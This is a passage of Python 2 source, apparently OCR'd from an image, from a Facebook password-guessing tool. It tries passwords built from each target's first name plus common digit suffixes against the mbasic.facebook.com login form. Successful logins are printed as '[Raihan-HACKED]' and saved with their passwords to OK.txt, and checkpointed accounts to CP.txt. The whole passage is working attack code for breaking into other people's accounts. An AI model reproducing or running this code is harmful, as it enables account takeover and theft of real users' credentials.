                                 cp.close()
                                cps.append(uid + ps5)
                            else:
                                ps6 = name.lower().split(' ')[0] + '123456'
                                data = session.post('https://mbasic.facebook.com/login.php', data = {
                                    'email': uid,
                                    'pass': ps6,
                                    'login': 'submit' })
                                sp = data.content
                                if 'mbasic_logout_button' in sp or 'save-device' in sp:
                                    print '\x1b[1;92m[Raihan-HACKED] ' + uid + ' | ' + ps6 + '\x1b[0;97m'
                                    ok = open('OK.txt', 'a')
                                    ok.write(uid + '|' + ps6 + '\n')
                                    ok.close()
                                    oks.append(uid + ps6)
                                elif 'checkpoint' in sp:
                                    print '\x1b[1;91m[Raihan-CHECKPOINT] ' + uid + ' | ' + ps6 + '\x1b[0;97m'
                                    cp = open('CP.txt', 'a')
                                    cp.write(uid + '|' + ps6 + '\n')
                                    cp.close()
                                    cps.append(uid + ps6)
                                else:
                                    ps7 = name.lower().split(' ')[0] + '@1234'
                                    data = session.post('https://mbasic.facebook.com/login.php', data = {
                                        'email': uid,
                                        'pass': ps7,
                                        'login': 'submit' })
                                    sp = data.content
                                    if 'mbasic_logout_button' in sp or 'save-device' in sp:
                                        print '\x1b[1;92m[Raihan-HACKED] ' + uid + ' | ' + ps7 + '\x1b[0;97m'
                                        ok = open('OK.txt', 'a')
                                        ok.write(uid + '|' + ps7 + '\n')
                                        ok.close()
                                        oks.append(uid + ps7)
                                    elif 'checkpoint' in sp:
                                        print '\x1b[1;91m[Raihan-CHECKPOINT] ' + uid + ' | ' + ps7 + '\x1b[0;97m'
                                        cp = open('CP.txt', 'a')
                                        cp.write(uid + '|' + ps7 + '\n')
                                        cp.close()
                                        cps.append(uid + ps7)
                                    else:
                                        ps8 = name.lower().split(' ')[0] + '@12345'
                                        data = session.post('https://mbasic.facebook.com/login.php', data = {
                                            'email': uid,
                                            'pass': ps8,
                                            'login': 'submit' })
                                        sp = data.content
                                        if 'mbasic_logout_button' in sp or 'save-device' in sp:
                                            print '\x1b[1;92m[Raihan-HACKED] ' + uid + ' | ' + ps8 + '\x1b[0;97m'
                                            ok = open('OK.txt', 'a')
                                            ok.write(uid + '|' + ps8 + '\n')
                                            ok.close()
                                            oks.append(uid + ps8)
                                        elif 'checkpoint' in sp:
                                            print '\x1b[1;91m[Raihan-CHECKPOINT] ' + uid + ' | ' + ps8 + '\x1b[0;97m'
                                            cp = open('CP.txt', 'a')
                                            cp.write(uid + '|' + ps8 + '\n')
                                            cp.close()
                                            cps.append(uid + ps8)
        except:
            pass
        